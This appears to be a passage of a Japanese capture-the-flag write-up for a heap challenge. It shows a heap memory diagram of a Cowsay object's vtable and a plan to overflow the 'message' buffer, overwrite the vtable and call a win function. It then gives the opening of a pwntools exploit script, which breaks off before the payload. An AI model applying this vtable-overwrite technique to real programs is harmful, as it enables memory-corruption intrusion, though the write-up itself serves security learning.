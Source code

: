 ```
  [ address ]    [ heap data ]
               +------------------+
0x5619d83d4ea0 | 0000000000000000 |
               +------------------+
0x5619d83d4ea8 | 0000000000000021 |
               +------------------+
0x5619d83d4eb0 | 0000000000000000 | <-- message (= '')
               +------------------+
0x5619d83d4eb8 | 0000000000000000 |
               +------------------+
0x5619d83d4ec0 | 0000000000000000 |
               +------------------+
0x5619d83d4ec8 | 0000000000000021 |
               +------------------+
0x5619d83d4ed0 | 00005619d82face8 | ---------------> vtable for Cowsay
               +------------------+                 +------------------+
0x5619d83d4ed8 | 00005619d83d4eb0 |  0x5619d82face8 | 00005619d82f76e2 |
               +------------------+                 +------------------+
0x5619d83d4ee0 | 0000000000000000 |                 --> Cowsay::dialogue
               +------------------+
0x5619d83d4ee8 | 000000000000f121 |
               +------------------+
```

## 攻撃

`Display heap`の内容を見ながら、`message`のBoFを用いてCowsayのvtableを書き換えてwin関数を呼び出せば良さそうです。

## スクリプト

```py
from pwn import *
import re

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
# context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
    return io


def solve():
    global t
```